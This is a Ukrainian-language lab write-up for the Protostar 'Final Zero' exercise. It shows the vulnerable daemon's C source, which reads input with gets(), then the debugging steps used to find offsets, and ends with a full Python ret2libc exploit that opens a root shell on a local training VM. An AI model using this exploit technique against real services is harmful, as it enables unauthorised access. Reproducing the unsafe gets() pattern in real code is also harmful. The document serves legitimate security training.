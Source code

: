 ## [Final Zero](http://exploit.education/protostar/final-zero/)

Даний рівень поєднує переповнення стека та мережеве програмування для віддаленого переповнення.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include "../common/common.c"

#define NAME "final0"
#define UID 0
#define GID 0
#define PORT 2995

/*
 * Read the username in from the network
 */

char *get_username()
{
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;

  /* Convert to lower case */
  for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  username = get_username();
  
  printf("No such user %s\n", username);
}
```

Щоб перевірити як працює код можна ввести наступну команду:  
```nc 127.0.0.1 2995```  
 
Передамо у програму замість username дані, які викличуть переповнення буфера:  
```python -c "print('a' * 510 + '\x00' + 'aaaabbbbccccddddeeeeffffgggg')" | nc 127.0.0.1 2995```

Після цього у директорії /tmp/ має згенеруватися дамп ядра. Завантажимо його та перевіримо стан регістрів:  
```
gdb final0 /tmp/core.11.final0.1638
...
info registers
x/32wx $esp-8
```

Регістр ```EBP``` має значення ```0x66656565``` що відповідає 'eeeef' у реверсі.
Отже, для перезапису адреси повернення нам необхідно передати програмі ```'a' * 510 + '\x00' + 'aaaabbbbccccddddeeeef'``` (532 байти).

```
python -c "print('a' * 510 + '\x00' + 'aaaabbbbccccddddeeeeffffgggg')" | nc 127.0.0.1 2995
...
pidof final0
cat /proc/1425/maps
gdb -p `pidof final0`
c
set follow-fork-mode child
c
python -c "print('a' * 510 + '\x00' + 'aaaabbbbccccddddeeeeffffgggg')" | nc 127.0.0.1 2995 # у іншій консолі 
r
c
q
```
  
```
gdb -p `pidof final0`
info functions @plt
# 0x08048c0c
```
![execve](img/execve.png)

Отже, маємо ```0x08048c0c```

```
pidof final0
# 1425
cat /proc/1425/maps
# b7e97000 - навпроти /lib/libc-2.11.2.so
```

![/lib/libc](img/lib_libc.png)

```
grep -R -a -b -o /bin/sh /lib/libc.so.6
#1176511:/bin/sh
```

![/bin/sh](img/bin_sh.png)

Маючи усі необхідні дані можемо писати код експлойту:  
```nano exploit.py```  

```python
import struct
import socket
import telnetlib

HOST = '127.0.0.1'
PORT = 2995

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

padding = 'a' * 510 + '\x00' + 'aaaabbbbccccddddeeeef'
execve = struct.pack('I', 0x08048c0c)
binsh = struct.pack('I', 1176511 + 0xb7e97000)

exploit = padding + execve + 'AAAA' + binsh + '\x00' * 8

s.send(exploit + '\n')
s.send('id\n')
print(s.recv(1024))

s.send('uname -a \n')
print(s.recv(1024))

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

Запускаємо експлойт і все готово:  
```python exploit.py```

![Shell test](img/shell_test.png)